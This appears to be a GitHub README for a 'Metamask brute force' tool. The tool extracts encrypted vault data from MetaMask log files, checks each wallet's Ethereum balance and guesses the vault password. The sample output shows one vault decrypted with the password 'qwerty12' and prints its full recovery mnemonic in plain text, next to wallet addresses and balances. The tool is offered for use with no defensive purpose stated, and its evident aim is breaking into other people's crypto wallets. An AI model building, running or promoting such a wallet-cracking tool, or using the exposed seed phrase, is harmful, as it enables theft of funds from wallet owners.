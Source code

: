# Metamask brute force
This program checks the balance of a MetaMask log file, extracts vault data, and performs brute-force  on the vault data.

Starting processing in directory: C:\metamaskbrut

Processing file: C:\metamaskbrut\000233.log
Vault extracted and saved to file: C:\metamaskbrut\000233.log.hash
Ethereum address found: 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2
Balance for address 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2: 0.03913388434350565 ETH


Processing file: C:\metamaskbrut\00023664.log
Vault extracted and saved to file: C:\metamaskbrut\00023664.log.hash
Ethereum address found: 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8
Balance for address 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8: 0.00000000000000000 ETH


Processing complete.
Found 2 .hash file(s).

Processing file: .\000233.log.hash
Valid vaults loaded: 1

File processed. Passwords tried: 9  |  Vaults decrypted: 0  |  Speed: 0.00 p/s  |  Time elapsed: 0 sec

Processing file: .\00023664.log.hash
Valid vaults loaded: 1

Decrypted Vault: '{"data":"VtfsMLY/5cCEBtd+5LxrKUFLVJAXnTN1t4O+3W3RgU6Xce6Vh0C2Jst...'
Vault Password: 'qwerty12'
mnemonic: youth draw mother patient machine maze young mechanic silver pulse discover phone swear have nest

File processed. Passwords tried: 8  |  Vaults decrypted: 1  |  Speed: 1.14 p/s  |  Time elapsed: 7 sec

Finished.
